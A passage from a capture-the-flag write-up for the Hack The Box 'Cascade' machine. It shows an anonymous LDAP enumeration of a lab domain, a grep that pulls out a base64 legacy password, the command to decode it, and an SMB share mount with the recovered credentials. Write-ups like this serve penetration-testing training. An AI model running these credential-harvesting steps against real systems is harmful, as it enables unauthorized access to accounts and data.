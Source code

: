 ```
root@kali:~/htb/cascade# ldapsearch -h 10.10.10.182 -b "DC=CASCADE,DC=LOCAL"
SASL/DIGEST-MD5 authentication started
Please enter your password: 
ldap_sasl_interactive_bind_s: Invalid credentials (49)
	additional info: 8009030C: LdapErr: DSID-0C09053E, comment: AcceptSecurityContext error, data 52e, v1db1
```

By default, ldapsearch tries to authenticate via [SASL](https://ldapwiki.com/wiki/SASL). As we don't have any credentials, we need to add a `-x` flag to turn off the SASL authentication.

`ldapsearch -x -h 10.10.10.182 -b "DC=CASCADE,DC=LOCAL"`

The `-b` flag sets the base for the search. And the default filter is `(objectClass=*)` which returns all objects. This is the broadest search possible, so it returns a lot of output.

A good start is to grep for passwords.

```
root@kali:~/htb/cascade# grep -Ei "passw|pwd" ldap.txt 
<SNIP>
cascadeLegacyPwd: clk0bjVldmE=
<SNIP>
```

We find a legacy password. Now let's zoom into this section to see which user this password belongs to.

```
sAMAccountName: r.thompson
<SNIP>
cascadeLegacyPwd: clk0bjVldmE=
```

We can decode the password as follows:

`echo clk0bjVldmE= | base64 -d`

Now that we have a set of credentials, it's time to try it out on other services.

## SMB Enumeration

Enumerating SMB shares with `r.thompson` reveals that the `Data` share is readable.

We can mount it to take a closer look by listing all files recursively.

```
# mount -t cifs -o username=r.thompson //10.10.10.182/Data /mnt/Data
Password for r.thompson@//10.10.10.182/Data:  ********
# cd Data/
# ls -alR
```

We find a note suggesting that `TempAdmin` uses the same password as the admin account, so let's bear that in mind,

```
root@kali:/mnt/Data# cat './IT/Email Archives/Meeting_Notes_June_2018.html'
<SNIP>
<p>-- We will be using a temporary account to
perform all tasks related to the network migration and this account will be deleted at the end of
2018 once the migration is complete. This will allow us to identify actions
related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password). </p>
```
